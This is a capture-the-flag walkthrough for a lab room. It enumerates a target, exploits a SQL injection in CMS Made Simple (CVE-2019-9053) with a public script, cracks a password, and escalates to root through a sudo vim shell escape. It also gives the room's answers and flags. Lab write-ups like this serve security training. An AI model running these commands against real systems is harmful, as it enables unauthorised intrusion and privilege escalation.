 # Room: Easy CTF

## General Info
- **Room link:** [Easy CTF](https://tryhackme.com/room/easyctf)

## Description

Deploy the machine and attempt the questions!

## Provided Files / Links
- [x] Target Machine IP (10.10.171.52)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV -p1-1000 10.10.171.52`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

How many services are running under port 1000?
**2**

What is running on the higher port?


- Directories Enumeration

`gobuster dir -u 10.10.171.52 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100`

I found this directory:
`/simple               (Status: 301) [Size: 313] [--> http://10.10.171.52/simple/]`

When accessing the page, it's a CMS `CMS Made Simple` and the version is 2.2.8.

When looking for an exploit on this version I found the answer for the next question.

What's the CVE you're using against the application?
**CVE-2019-9053**

To what kind of vulnerability is the application vulnerable?
**SQLi** (SQL Injection)

## Exploitation

I downloaded this python script here https://www.exploit-db.com/exploits/46635 to exploit the CMS.

I ran the following command:
`python3 46635.py -u http://10.10.171.52/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt `

And got the following results:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

What's the password?
**secret**

Where can you login with the details obtained?
**ssh**

## Target machine exploitation

From the results obtained in the first part of this ctf, we know that ssh is actually in port 2222.
To connect through ssh: `ssh mitch@10.10.171.52 -p 2222` with `secret` as the password.

I found the user flag in the user.txt file in the /home/mitch directory:
**G00d j0b, keep up!**

I found another user in the home directory: **sunbath**.

I then tried `sudo -l` to find the user's permissions and found the following:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

I then went to https://gtfobins.github.io/gtfobins/vim/ and used this command to get root privleges: `sudo vim -c ':!/bin/sh'`

Being root now, I can find the flag in the root.txt file in the /root directory:
**W3ll d0n3. You made it!**
